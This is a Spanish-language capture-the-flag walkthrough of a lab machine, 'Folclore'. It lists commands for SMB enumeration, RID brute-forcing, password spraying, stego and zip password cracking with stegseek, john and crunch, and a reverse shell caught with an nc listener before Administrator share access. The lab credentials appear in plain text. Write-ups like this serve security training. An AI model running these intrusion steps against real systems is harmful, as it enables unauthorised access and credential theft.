Folclore

{kind=link}
Buscamos la máquina objetivo
nmap -sn 192.168.56.0/24

Buscamos versión de servicios en todos los puertos
nmap -sV -p- 192.168.56.113

Listamos con anónimo
smbclient -L //192.168.56.113 -N

Revisamos permisos
netexec smb 192.168.56.113 -u 'guest' -p '' --shares

Sacamos info
Impacket-DumpNTLMInfo 192.168.56.113

Probamos diferentes formas para listar usuarios desde smb rid brute


Con guest lo conseguimos
netexec smb 192.168.56.113 -u 'Guest' -p ' ' --rid-brute

Forzamos los usuarios y buscamos con rockyou.txt
En este pantallazo sale expirado, tuve que modificar la fecha de la maquina porque el hackbox es antiguo

Revisamos los permisos
netexec smb 192.168.56.111 -u El_charro_negro -p abc123 --shares

Revisamos patch que podemos leer y escribir
smbclient //192.168.56.111/Oro -U El_charro_negro%abc123

Descargamos

Imagen sospechosa

Revisamos metadatos
exiv2 El_charro_negro.jpeg

Tenemos nuevo usuario, comprobamos y revisamos permisos
netexec smb 192.168.56.111 -u Ix_Chel -p 4+9Ii1wK
netexec smb 192.168.56.111 -u Ix_Chel -p 4+9Ii1wK --shares

smbclient //192.168.56.111/Santuario -U Ix_Chel%9Ii1wK

Ya tenemos otra clave
 ´
´
Hay que poner comillas simples, si no, el dolar desaparece:
netexec smb 192.168.56.111 -u userdir.txt -p '45yD#k7'

El usuario para esa password es Tlaloc
Revisamos permisos
netexec smb 192.168.56.111 -u Tlaloc -p '677Kn$q'

Descargamos contenido
smbclient //192.168.56.111/Lluvia -U Tlaloc%´677Kn$q´

si pide passprase es que hay algo cifrado
steghide extract -sF Tlaloc.jpg

fuerza bruta contraseña
stegseek Tlaloc.jpg /usr/share/wordlists/ffuf/SecLists-master/Passwords/Common-Credentials/xato-net-10-million-passwords.txt

al lado de la imagen se ha descomprimido el archivo


Nuevo usuario La_mulata_de_Cordoba
Comprobamos validez y permisos
netexec smb 192.168.56.111 -u La_mulata_de_Cordoba -p '45yD#k7'

smbclient /192.168.56.111/Libertad -U La_mulata_de_Cordoba%45yD#k7



Nuevo usuario La_catrina
Revisamos permisos
smbclient /192.168.56.111/Libertad -U La_catrina -p ´3nM93{S#´ --shares

Revisamos path y descargamos contenido
smbclient /192.168.56.111/´Dia de Muertos´ -U La_catrina%3nM93{S#
 ´
´

Pasamos el zip a hash.txt
zip2john Pacto.zip > hash_pacto.txt
john --wordlist=/usr/share/wordlists/rockyou.txt --fork=$(nproc) hash_pacto.txt


Ahora tenemos una muy buena pista, ya que si no tardaria muchas horas o dias

Las pistas de todos los txt eran 8 caracteres, las 3 primeras J9c, la quinta una U, y las dos ultimas %/
crunch 8 8 abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 -t J9c@U@%/ -l aaaaUa%/ -o diccionario_final.txt
es importante la opcion -l, en este caso el % lo tomaria como numero

Encontramos la contraseña en 5 minutos
netexec smb 192.168.56.116 -u Quetzalcoatl -p diccionario_final.txt

Revisamos permisos
netexec smb 192.168.56.116 -u Quetzalcoatl -p J9c7U7%/ --shares´

smbclient /192.168.56.116/Viento -U Quetzalcoatl

preparamos un shell.ps1
configuramos

escuchamos
nc -vlp 4444

subimos

ya tenemos acceso

somos usuario normal
revisando carpetas, encontramos un txt interesante

con smb podemos acceder al path de C
smbclient //192.168.56.116/C$ -U Administrador

Conseguimos las flags de usuario y administrador


